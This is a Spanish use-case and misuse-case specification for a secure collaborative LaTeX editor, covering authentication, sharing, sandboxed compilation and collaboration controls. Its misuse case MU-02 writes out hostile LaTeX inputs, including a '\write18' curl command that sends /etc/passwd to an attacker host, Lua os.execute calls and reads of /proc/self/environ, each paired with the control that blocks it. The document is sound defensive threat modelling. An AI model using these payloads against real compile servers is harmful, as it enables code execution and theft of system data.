






# 07 — Casos de Uso y Casos de Abuso

> **Proyecto:** SecurTex — Editor LaTeX Colaborativo Seguro
> **Notación:** UML 2.5 (diagramas de casos de uso) + plantilla de Cockburn para las especificaciones
> **Versión:** 1.0

---

## 1. Actores

---

## 2. Diagrama general de casos de uso

---

## 3. Diagramas por módulo

### 3.1 Identidad y cuenta

### 3.2 Proyectos y colaboración

### 3.3 Edición y compilación

---

## 4. Especificación detallada de los casos de uso principales

> Plantilla: identificador, nombre, actor primario, actores secundarios, precondiciones, disparador, flujo principal, flujos alternativos, flujos de excepción, postcondiciones, requisitos asociados, **consideraciones de seguridad**.

---

### CU-01 · Registrarse con correo y contraseña

| Campo | Contenido |
|---|---|
| **Actor primario** | Visitante |
| **Actores secundarios** | Servicio de notificaciones, HIBP |
| **Precondiciones** | El visitante no tiene sesión activa |
| **Disparador** | Pulsa "Crear cuenta" |
| **Requisitos** | RF-001, RF-010, RS-001 |

**Flujo principal**

1. El sistema muestra el formulario de registro con el token CSRF.
2. El visitante introduce correo, contraseña y acepta los términos.
3. El sistema valida el formato del correo y la fortaleza de la contraseña (≥ 12 caracteres, entropía mínima).
4. El sistema consulta HIBP mediante **k-anonimato** (envía los 5 primeros caracteres del SHA-1, nunca la contraseña).
5. El sistema aplica límite de tasa y, si procede, CAPTCHA.
6. El sistema calcula el hash Argon2id y crea el usuario en estado `pending`.
7. El sistema genera un token de verificación de un solo uso (256 bits, caducidad 24 h) y almacena solo su hash.
8. El sistema envía el correo de verificación.
9. El sistema muestra un mensaje **genérico**: "Si el correo es válido, recibirás un mensaje de verificación".
10. El visitante abre el enlace; el sistema valida el token, marca `email_verified_at` y activa la cuenta.

**Flujos alternativos**

- **3a.** Contraseña débil → mensaje con criterios concretos, sin revelar la política completa de detección.
- **4a.** Contraseña presente en filtraciones → se rechaza con explicación y enlace a buenas prácticas.
- **6a.** El correo ya existe → **el sistema sigue el mismo flujo visible** y envía un aviso al titular real ("alguien intentó registrarse con tu correo"). No se revela la existencia de la cuenta.

**Flujos de excepción**

- **E1.** Token de verificación caducado → se ofrece reenviar; el anterior se invalida.
- **E2.** Token ya usado → error genérico + evento de auditoría `auth.verify.reuse`.
- **E3.** Fallo de HIBP → se registra y **se continúa** (disponibilidad sobre defensa opcional), aplicando el resto de la política.

**Postcondiciones** — Usuario creado y verificado; eventos `auth.register` y `auth.email.verified` en auditoría.

**Consideraciones de seguridad** — Sin enumeración de usuarios (T-A09); rate limit *antes* del hashing para evitar DoS por Argon2id (T-A10); tiempos de respuesta uniformes; token de verificación almacenado hasheado.

---

### CU-02 · Iniciar sesión con Google o Microsoft

| Campo | Contenido |
|---|---|
| **Actor primario** | Visitante |
| **Actores secundarios** | Keycloak, Google Identity / Microsoft Entra ID |
| **Precondiciones** | El proveedor está configurado en el realm |
| **Requisitos** | RF-002, RF-003, RF-005 |

**Flujo principal**

1. El visitante pulsa "Continuar con Google" (o Microsoft).
2. El sistema genera `state` (256 bits) y `code_verifier`, y los guarda en una cookie de un solo uso `HttpOnly`, `SameSite=Lax`.
3. Redirige a Keycloak con `code_challenge = S256(code_verifier)`.
4. Keycloak redirige al proveedor; el usuario se autentica allí.
5. El proveedor devuelve el código a Keycloak, que lo canjea servidor-a-servidor y **valida firma (JWKS), `iss`, `aud`, `exp` y `nonce`**.
6. Keycloak redirige a la aplicación con su propio código.
7. El sistema **valida el `state`** contra la cookie y la invalida.
8. El sistema canjea el código con el `code_verifier` (PKCE) y obtiene el `id_token`.
9. El sistema busca `user_identities` por (`provider`, `sub`):
   - existe → recupera el usuario;
   - no existe y el correo verificado coincide con una cuenta → **solicita confirmación explícita** antes de vincular;
   - no existe → crea la cuenta con el correo ya verificado por el IdP.
10. El motor de riesgo evalúa IP, dispositivo y geovelocidad; si el riesgo es alto, exige MFA.
11. Se emite la cookie de sesión `__Host-sid` (`HttpOnly`, `Secure`, `SameSite=Lax`) y se registra el evento.

**Flujos alternativos**

- **9a.** El correo coincide con una cuenta cuyo correo **no** está verificado → se rechaza la vinculación automática (previene toma de control de cuenta por preregistro).
- **10a.** Riesgo alto → CU-03b (verificación de segundo factor).

**Flujos de excepción**

- **E1.** `state` inválido o ausente → 400, evento `auth.oauth.state_mismatch`, alerta si se repite.
- **E2.** Firma del `id_token` inválida → rechazo y evento de severidad alta.
- **E3.** El usuario cancela en el proveedor → vuelta a la pantalla de acceso sin detalles.

**Consideraciones de seguridad** — Mitiga T-A05, T-A06, T-A07. `redirect_uri` registrado de forma exacta, sin comodines. Un `client_id` distinto por proveedor.

---

### CU-14 · Compartir un proyecto con colaboradores

| Campo | Contenido |
|---|---|
| **Actor primario** | Propietario |
| **Requisitos** | RF-026, RF-027, RS-010 |

**Flujo principal**

1. El propietario abre "Compartir".
2. El sistema **verifica que es propietario** (política del caso de uso + RLS).
3. Introduce el correo y elige el rol (`editor`, `reviewer`, `viewer`).
4. El sistema valida el correo y comprueba el límite de colaboradores del plan.
5. Crea la invitación con token de 256 bits (almacenado hasheado) y caducidad de 7 días.
6. Envía el correo y crea la notificación en la aplicación.
7. Registra `project.invite.created` en auditoría.
8. El invitado acepta → se crea la fila en `project_members` y se registra `project.member.added`.

**Flujos alternativos**

- **3a.** Enlace de compartición: se genera un token con nivel de acceso; se muestra **una sola vez**; puede revocarse y regenerarse.
- **8a.** El invitado no tiene cuenta → se le lleva a CU-01 y la invitación queda pendiente y ligada al correo.

**Flujos de excepción**

- **E1.** Límite del plan alcanzado → 402 con explicación.
- **E2.** El invitado ya es miembro → se actualiza el rol previa confirmación.
- **E3.** Invitación caducada → se ofrece solicitar una nueva; la caducada se marca `expired`.

**Consideraciones de seguridad** — Mitiga T-P01 y T-P02. El token nunca aparece en logs, URLs de redirección ni cabecera `Referer` (se envía `Referrer-Policy: no-referrer` en esas páginas). Revocar el acceso cierra los WebSockets del usuario en menos de 5 s (T-P04).

---

### CU-21 · Compilar un documento

| Campo | Contenido |
|---|---|
| **Actor primario** | Usuario con acceso al proyecto |
| **Actores secundarios** | `compile-orchestrator`, `texlive-runner` |
| **Precondiciones** | El proyecto tiene documento principal designado |
| **Requisitos** | RF-050…RF-058, RS-030…RS-037 |

**Flujo principal**

1. El usuario pulsa "Recompilar" (o se dispara la autocompilación).
2. El gateway valida sesión, CSRF y límite de tasa.
3. El orquestador **verifica el permiso de lectura** sobre el proyecto.
4. Verifica la cuota de compilación del plan.
5. Calcula el hash del árbol de fuentes; si hay acierto de caché, devuelve el resultado (fin).
6. Ejecuta el **análisis estático de seguridad** sobre las fuentes.
7. Descifra las fuentes en un volumen `tmpfs` efímero.
8. Lanza el contenedor: gVisor, sin red, raíz de solo lectura, sin capabilities, seccomp, 1 vCPU, 1 GiB, 60 s.
9. `latexmk` ejecuta las pasadas necesarias, incluyendo `biber`/`bibtex` e índices.
10. Recoge PDF, `.log` y `.synctex`.
11. **Valida la salida**: tipo MIME real, tamaño, estructura del PDF.
12. Sanea el log y lo convierte en errores estructurados.
13. Cifra y almacena los artefactos; **destruye el contenedor y el volumen**.
14. Devuelve el resultado; el visor muestra el PDF y el panel los mensajes.

**Flujos alternativos**

- **5a.** Acierto de caché → respuesta en < 200 ms.
- **6a.** Veredicto `suspicious` → se compila, se avisa al usuario y se registra con severidad alta.
- **9a.** Errores de LaTeX → estado `failed` con el detalle; el PDF parcial se ofrece si existe.
- **1a.** El usuario cancela → el contenedor se termina en < 2 s.

**Flujos de excepción**

- **E1.** Veredicto `blocked` → 422 "El documento contiene construcciones no permitidas", con la lista concreta; evento `compile.blocked` de severidad alta.
- **E2.** Timeout → estado `timeout` con sugerencias (modo borrador, dividir el documento).
- **E3.** Cuota agotada → 429 con el tiempo de reintento.
- **E4.** Falco detecta comportamiento anómalo → terminación inmediata, aislamiento del nodo, incidente **SEV-1**.

**Postcondiciones** — Fila en `compilations`, artefactos almacenados, contenedor destruido, métricas registradas.

**Consideraciones de seguridad** — Es el caso de uso con mayor concentración de controles del sistema: mitiga T-C01 a T-C13.

---

### CU-25 · Colaborar en tiempo real

| Campo | Contenido |
|---|---|
| **Actor primario** | Editor |
| **Requisitos** | RF-070…RF-074, RS-010 |

**Flujo principal**

1. El cliente solicita un **token de colaboración** de vida corta (5 min) para un documento concreto.
2. El servicio verifica el permiso y emite el token firmado con Ed25519, con `documentId`, `userId`, `role` y `exp`.
3. El cliente abre el WebSocket seguro enviando el token en el subprotocolo.
4. `collab-service` valida el token y el `Origin`, y une al usuario a la sala.
5. Se sincroniza el estado Yjs; se difunde la presencia (nombre, color, cursor).
6. Cada pulsación genera una actualización CRDT que se difunde a la sala y a los demás nodos por Redis Pub/Sub.
7. Cada 2 s el estado se persiste con *debounce*.
8. Cada 60 s se revalidan los permisos del usuario.
9. Al desconectarse, se retira la presencia y se fuerza un guardado.

**Flujos alternativos**

- **4a.** Rol `viewer` o `reviewer` → la sesión se marca de solo lectura y el servidor **descarta** cualquier actualización de contenido recibida.
- **6a.** Pérdida de conexión → el cliente sigue editando contra IndexedDB y reenvía al reconectar.

**Flujos de excepción**

- **E1.** Token inválido o caducado → cierre del socket con código 4401.
- **E2.** Acceso revocado durante la sesión → cierre en < 5 s con mensaje explicativo.
- **E3.** Superado el límite de tasa → advertencia y, si persiste, desconexión temporal.

**Consideraciones de seguridad** — Mitiga T-R01, T-R03, T-R05. El token de colaboración es específico del documento: aunque se filtre, no da acceso a nada más.

---

### CU-30 · Revisar con control de cambios

| Campo | Contenido |
|---|---|
| **Actor primario** | Revisor |
| **Requisitos** | RF-081, RF-082 |

**Flujo principal**

1. El revisor abre el documento; el sistema activa el modo revisión (impuesto por su rol).
2. Escribe: la operación se transforma en una **sugerencia** (`tracked_change` con estado `pending`), no en una modificación aceptada.
3. Selecciona texto y añade un comentario anclado por posición relativa de Yjs.
4. Los editores ven las sugerencias con autoría y color.
5. Un editor acepta o rechaza cada cambio; al aceptar, se aplica al documento.
6. Los comentarios se resuelven y quedan archivados.

**Flujos alternativos**

- **2a.** Si el actor es Editor y el control de cambios está activo, sus ediciones también se registran como cambios rastreados.
- **5a.** "Aceptar todos" pide confirmación e indica el número de cambios afectados.

**Consideraciones de seguridad** — La restricción del rol Revisor se aplica **en el servidor** (T-P03). El cuerpo de los comentarios se escapa siempre en el render (T-R06).

---

### CU-17 · Subir un archivo

| Campo | Contenido |
|---|---|
| **Actor primario** | Editor |
| **Requisitos** | RF-031, RF-033, RF-036 |

**Flujo principal**

1. El editor arrastra un archivo al árbol.
2. El cliente valida extensión y tamaño (validación de conveniencia, no de seguridad).
3. El servidor valida: permiso, cuota del proyecto, tamaño real, **nombre mediante `SafeFileName`** y tipo MIME real por *magic bytes*.
4. Se almacena en cuarentena con `av_status = pending` y clave de objeto UUID.
5. Se encola el escaneo con ClamAV.
6. Resultado limpio → `av_status = clean`, el archivo aparece disponible en el árbol.
7. Se cifra con una DEK propia y se registra el evento.

**Flujos de excepción**

- **E1.** Malware detectado → cuarentena permanente, notificación al usuario y al equipo, evento de severidad alta.
- **E2.** Cuota superada → 413.
- **E3.** Nombre inválido → 400 con el motivo; nunca se "corrige" silenciosamente una ruta con `..`.
- **E4.** El escáner no responde → el archivo permanece en `pending` y **no es accesible** (fallo seguro).

**Consideraciones de seguridad** — Mitiga T-F01, T-F04, T-F05.

---

### CU-35 · Consultar y restaurar el historial

**Flujo principal:** el usuario abre "Historial" → el sistema aplica el mismo control de acceso que al proyecto → muestra la línea de tiempo agrupada por sesión y autor → el usuario selecciona dos puntos y ve el *diff* coloreado por autor → puede etiquetar una versión o restaurarla; la restauración **crea una nueva versión**, nunca borra el historial intermedio.

**Seguridad:** mitiga T-P05 (el historial no puede ser una puerta trasera para un colaborador revocado).

---

### CU-45 · Publicar un proyecto como plantilla

**Flujo principal:** el propietario elige "Publicar como plantilla" → completa título, descripción y licencia → el sistema **ejecuta el análisis estático de seguridad obligatorio** → genera la vista previa en PDF → la plantilla queda en estado `pending` de moderación → un administrador aprueba o rechaza → al aprobarse aparece en la galería.

**Seguridad:** mitiga T-C12; una plantilla es código que otros ejecutarán.

---

### CU-50 · Sincronizar con GitHub

**Flujo principal:** el usuario instala la GitHub App con permisos mínimos y selecciona repositorios concretos → vincula un repositorio a un proyecto → `pull` trae los cambios y muestra los conflictos → `push` crea un commit con la autoría del usuario → los tokens de instalación se cifran y son de vida corta.

**Seguridad:** mitiga T-I01. Nunca se solicita el *scope* `repo` completo. Los webhooks se verifican con HMAC en tiempo constante (T-I02).

---

### CU-60 · Administrar la plataforma

**Flujo principal:** el administrador accede desde una red permitida y con MFA obligatoria → consulta métricas, bloquea cuentas, activa el modo mantenimiento o modera plantillas → **toda acción genera un evento de auditoría reforzado** → las acciones que afectan al contenido de un proyecto exigen justificación escrita y notifican al propietario.

**Seguridad:** mitiga T-O01. El administrador no puede leer documentos de forma silenciosa.

---

## 5. Casos de **abuso** (*misuse cases*)

El modelado de casos de abuso es una técnica de ingeniería de requisitos de seguridad: se modela al atacante como un actor más, con sus objetivos, y se enlazan los casos de uso que **amenaza** con los controles que los **mitigan**.

### MU-02 · Ejecutar código arbitrario en el servidor — especificación

| Campo | Contenido |
|---|---|
| **Actor hostil** | Atacante con cuenta gratuita |
| **Objetivo** | Obtener ejecución de código fuera del sandbox y pivotar hacia la red interna |
| **Activos amenazados** | A-07 (infraestructura), A-01 (documentos ajenos), A-05 (claves) |
| **Amenazas STRIDE** | T-C01, T-C03, T-C07 |

**Flujo del ataque**

1. Crea una cuenta gratuita y un proyecto.
2. Sube un `.tex` con `\immediate\write18{curl http://atacante/$(cat /etc/passwd)}`.
3. Compila.
4. Al fallar, prueba `\directlua{os.execute("...")}` con LuaLaTeX.
5. Prueba `\usepackage{shellesc}`, `\input{/proc/self/environ}` y variantes ofuscadas mediante `\catcode`.
6. Prueba a explotar el parser del `.log` enviando nombres de fichero con secuencias de escape.

**Controles que lo detienen**

| Paso | Control | Resultado |
|---|---|---|
| 2–3 | Análisis estático previo | Compilación **bloqueada**, evento de severidad alta |
| 3 | `shell_escape=f` en la imagen | Aunque se evadiera el analizador, `\write18` no ejecuta nada |
| 4 | LuaTeX en modo `--safer` | `os` e `io` no disponibles |
| 5 | `openin_any=p` | Lectura confinada al árbol del proyecto |
| Todos | `--network=none` + egress denegado | Sin canal de exfiltración |
| Todos | gVisor + seccomp + sin capabilities | Sin superficie de kernel que explotar |
| 6 | Orquestador en Rust, parseo seguro en memoria | Sin desbordamientos |
| Todos | Falco | Detección y respuesta SEV-1 |
| Todos | Contenedor efímero | Sin persistencia entre trabajos |

**Criterio de verificación:** el ejercicio de escape del sandbox, ejecutado cada sprint, debe reproducir este flujo completo y documentar que todos los pasos fallan.

### MU-03 · Leer proyectos ajenos — especificación resumida

| Paso del atacante | Control |
|---|---|
| Cambiar el UUID en `/api/v1/projects/{id}` | Autorización en el caso de uso + **RLS**: 404 uniforme |
| Enumerar UUID | UUIDv7 no adivinable; rate limit; alerta ante muchos 403/404 |
| Manipular el rol en el cuerpo de la petición | DTO con `forbidNonWhitelisted`: 400 |
| Reutilizar un token de colaboración de otro documento | El token está ligado a `documentId` |
| Acceder tras revocación con el socket abierto | Revalidación cada 60 s + evento de revocación |
| Consultar el historial de un proyecto del que fue expulsado | El historial hereda la política de acceso |

---

## 6. Trazabilidad casos de uso ↔ requisitos ↔ amenazas

| Caso de uso | Requisitos | Amenazas mitigadas | Prueba E2E |
|---|---|---|---|
| CU-01 | RF-001, RF-010, RS-001 | T-A01, T-A09, T-A10 | `e2e/register.spec.ts` |
| CU-02 | RF-002, RF-003, RF-005 | T-A02, T-A05, T-A06, T-A07 | `e2e/oauth-login.spec.ts` |
| CU-03 | RF-006 | T-A02 | `e2e/mfa.spec.ts` |
| CU-14 | RF-026, RF-027 | T-P01, T-P02, T-P04 | `e2e/share-project.spec.ts` |
| CU-17 | RF-031, RF-033 | T-F01, T-F04, T-F05 | `e2e/upload.spec.ts` |
| CU-20 | RF-040…RF-048 | T-R06 | `e2e/editor.spec.ts` |
| CU-21 | RF-050…RF-058 | T-C01…T-C13 | `e2e/compile.spec.ts` |
| CU-25 | RF-070…RF-074 | T-R01…T-R05 | `e2e/realtime.spec.ts` |
| CU-30 | RF-081, RF-082 | T-P03 | `e2e/track-changes.spec.ts` |
| CU-35 | RF-090…RF-093 | T-P05 | `e2e/history.spec.ts` |
| CU-45 | RF-112 | T-C12 | `e2e/publish-template.spec.ts` |
| CU-50 | RF-120 | T-I01, T-I02 | `e2e/github-sync.spec.ts` |
| CU-60 | RF-133 | T-O01 | `e2e/admin.spec.ts` |

---

## 7. Documentos relacionados

- [02-Requisitos.md](02-Requisitos.md) — requisitos referenciados
- [05-Seguridad.md](05-Seguridad.md) — amenazas STRIDE citadas
- [08-Diagramas-UML.md](08-Diagramas-UML.md) — diagramas de secuencia y actividad de estos casos de uso
